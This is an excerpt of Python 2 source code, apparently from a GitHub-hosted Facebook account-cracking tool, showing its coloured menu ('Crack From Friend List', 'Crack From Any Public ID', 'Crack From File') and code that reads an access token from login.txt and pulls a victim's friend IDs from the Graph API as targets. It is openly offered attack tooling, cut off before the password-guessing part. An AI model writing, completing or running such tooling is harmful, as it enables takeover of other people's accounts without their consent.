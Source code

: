 def super():

	global toket

	os.system('clear')

	try:

		toket=open('login.txt','r').read()

	except IOError:

		print"\033[1;96m \x1b[1;91mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	os.system('clear')

	print logo

	print 42*"\033[1;96m="

	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"

	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"

	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"

	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;97m >>> \033[1;97m")

	if peak =="":

		print "\033[1;96m \x1b[1;91mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')

		print logo

		print 42*"\033[1;96m="

		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

		z = json.loads(r.text)

		for s in z['data']:

			id.append(s['id'])

	elif peak =="2":
